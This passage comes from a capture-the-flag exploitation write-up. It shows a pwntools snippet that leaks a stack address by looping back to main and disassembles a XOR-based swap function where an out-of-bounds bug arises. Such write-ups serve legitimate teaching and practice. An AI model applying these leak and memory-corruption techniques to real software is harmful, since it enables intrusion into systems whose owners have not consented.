 > Note: functions like `rl()` and `sla()` are simple aliases for `t.recvline()` and `t.sendlineafter()`,  a full list can be seen using `vagd template` or looking at the exploit at the end

### Leaks

Looping back to main allows us to create multiple leaks, so we additionally leak the value of STACK:

```python
# leak stack
STACK_LEAK = base_diff(0x7fffffffec68, 0x7fffffffec30) # 11

woogie_boogie(START_REF, ROP)
woogie_boogie(0, STACK_LEAK)
leak = u64(leaker(), endian='big')
STACK = leak
lhex(STACK, "stack: ") # 0x7fffffffed48
```

we could also leak offsets like PIE or HEAP, but they won't be needed for the exploit. Even the stack leak is only used to make the exploit more reliable.

> Note: it should be possible to make this exploit completely leak less, but this would make it a lot more brute force and luck reliant, so not today  (^_^)

### Swap *(Insanity)*

Let's take a closer look at the swap function because this is were the OOB vulnerability happens:

```assembly
                             undefined __stdcall swap(undefined8 a, undefined8 b)
                             ;; prolog
        0010129a f3 0f 1e fa     ENDBR64
        0010129e 55              PUSH       RBP
        0010129f 48 89 e5        MOV        RBP,RSP
                             ;; save a and b to stack
        001012a2 48 89 7d f8     MOV        qword ptr [RBP + a_stack],a
        001012a6 48 89 75 f0     MOV        qword ptr [RBP + b_stack],b
                             ;; *a=*a^*b
        001012aa 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]
        001012ae 48 8b 10        MOV        RDX,qword ptr [RAX]
        001012b1 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]
        001012b5 48 8b 00        MOV        RAX,qword ptr [RAX]
        001012b8 48 31 c2        XOR        RDX,RAX
        001012bb 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]
        001012bf 48 89 10        MOV        qword ptr [RAX],RDX
                             ;; *b=*a^*b
        001012c2 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]
        001012c6 48 8b 10        MOV        RDX,qword ptr [RAX]
        001012c9 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]
        001012cd 48 8b 00        MOV        RAX,qword ptr [RAX]
        001012d0 48 31 c2        XOR        RDX,RAX
        001012d3 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]
        001012d7 48 89 10        MOV        qword ptr [RAX],RDX
                             ;; *a=*a^*b
        001012da 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]
        001012de 48 8b 10        MOV        RDX,qword ptr [RAX]
        001012e1 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]
        001012e5 48 8b 00        MOV        RAX,qword ptr [RAX]
        001012e8 48 31 c2        XOR        RDX,RAX
        001012eb 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]
        001012ef 48 89 10        MOV        qword ptr [RAX],RDX
                             ;; epilog
        001012f2 90              NOP
        001012f3 5d              POP        RBP
        001012f4 c3              RET
```